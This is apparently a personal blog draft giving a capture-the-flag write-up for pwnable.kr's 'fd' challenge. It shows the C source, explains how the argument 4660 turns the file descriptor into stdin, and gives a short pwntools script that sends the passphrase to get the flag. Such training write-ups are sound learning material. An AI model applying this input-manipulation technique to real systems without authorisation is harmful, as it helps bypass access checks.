 +++
date = '2025-06-10T21:05:17+03:00'
draft = true
title = 'Fd_ctf'
+++

this is how i solved the fd challenge on pwnable.kr

char buf[32];
int main(int argc, char* argv[], char* envp[]){
        if(argc<2){
                printf("pass argv[1] a number\n");
                return 0;
        }
        int fd = atoi( argv[1] ) - 0x1234;
        int len = 0;
        len = read(fd, buf, 32);
        if(!strcmp("LETMEWIN\n", buf)){
                printf("good job :)\n");
                setregid(getegid(), getegid());
                system("/bin/cat flag");
                exit(0);
        }
        printf("learn about Linux file IO\n");
        return 0;

}

above is the code that we were given, we can notice that the theme is aboud linux file
descriptors , 0 for input , 1 for output, 2 for errors, the trick here is to convince
the file descriptor to be 0 so we can input the passkey LETMEWIN

inorder to acoomplish that, notice "fd = atoi(argv[1])-0x1234;
atoi(argv[1]) must be equal to 0x1234, atoi converts a string to a decimal,
so our inputs would be converted to a decimal number, 0x1234 is equal to 4660.
the input must be equal to 4660.

using pwntools i crafted the following payload:

from pwn import *

p = process(['./fd', '4660'])
p.send(b'LETMEWIN\n')
print(p.recvall().decode())

which then i receieved the flag.
